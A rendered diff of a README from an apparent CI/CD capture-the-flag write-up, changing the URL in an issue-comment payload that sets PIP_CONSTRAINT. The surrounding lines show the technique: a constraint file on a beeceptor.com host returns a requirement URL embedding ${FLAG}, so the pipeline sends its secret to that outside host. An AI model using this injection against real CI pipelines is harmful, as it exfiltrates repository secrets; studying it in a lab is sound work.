

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -123,7 +123,7 @@ Response body: pyyaml@https://tdf123456.free.beeceptor.com/${FLAG}%
 Issue Comment:
 ``` bash
 Not a release :(
-PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
+PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/constraint.txt
 ```
 <p align="right">(<a href="#readme-top">back to top</a>)</p>
 
````
